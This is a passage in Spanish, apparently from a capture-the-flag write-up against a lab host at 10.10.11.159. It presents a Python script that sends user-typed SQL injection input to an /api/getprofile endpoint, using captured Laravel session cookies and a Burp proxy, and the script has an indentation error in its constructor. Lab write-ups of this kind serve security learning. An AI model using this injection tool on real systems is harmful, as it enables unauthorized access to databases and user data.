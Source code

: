Probé a quitarle la camilla simple y tras múltiples intentos fallidos logré dar con una respuesta diferente, podría tener 3 columnas.

![sincomilla](https://user-images.githubusercontent.com/69093629/161407496-a338d884-c3f5-4403-b1e4-731bd4848f8b.png)

Para ello, cree un *script* en Python 3 para manejarme más cómodamente desde la terminal.

```python
#!/usr/bin/python3

from pwn import *
import signal
from requests import get
from sys import exit

burp = {'http': 'http://127.0.0.1:8080'}

def def_handler(sig, frame):
  print("Saliendo...")
  exit(0)
signal.signal(signal.SIGINT, def_handler)

class InteractiveSQLi():
  def __init__(self, main_url):
  self.__url = main_url

  def sqli(self):
    while True:
      query = input('::$ ')

      headers = {
        "Content-Type": "application/json",
        "Cookie": "XSRF-TOKEN=eyJpdiI6IlFXVmNMS2dSdUpUcGRDZTFLRXBjK0E9PSIsInZhbHVlIjoiUHBXbko3OWpGdzdyOWFlWVJSclJnbzgrZlFxR0FhS1NWaDR5WmdudDBDMTBlRi91bVhIYkE1YzJXWTh5VmczUlRSTVR6dHRuUlpUa1JaN3ZJMjgwQ3pUd21uNnJadEFYS3oxYm5rQVZqdFVFRjc2c3JoRitxT3d0Y2p4TGVLSkUiLCJtYWMiOiJiYTdjZjJiZmViN2Q4NmE0OWJmMjIwNTA2Zjg4YjVmNDY3ZjMyMTNlOTUwN2U1N2NiYmVmZWZkOWNmZmZhMzY1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkdmM2RkeGlEVHBHano2RkRjTDZOUmc9PSIsInZhbHVlIjoiNlk5b2NnK2cvbGFFOG80RWpQcEFQckRrbU9kbjhWckREM2RRcjFwakR3VzNXeHk5dHc4UTFFbU0wZ0tRaGptL3JUeEpSUEZtZEJncXJObWRrQnBNTjE3dnRZaHgwbDI2YlNNL1c4RzB4SVpGNHZ0eWpjNjdRNncwWUJ0QnlvQnYiLCJtYWMiOiI3YjBmNjZjNzk0MjNhMDk2NjY5ZDBlMzIyYzJiOTNiMTg4NDA4ZWU2MjFjOTI1OWM5MGMwYzQ3Njk5ZWUzY2Y5IiwidGFnIjoiIn0%3D",
        "X-Requested-With": "XMLHttpRequest"
      }
  
      data_json = {
        "id": f"{query}",
        "secret": True
      }

      r = get(self.__url+'/api/getprofile', json=data_json, headers=headers)

      print('\n'+r.text+'\n')

sqlidebug = InteractiveSQLi('http://10.10.11.159')

def main():
  sqlidebug.sqli()

if __name__ == '__main__':
  main()
```
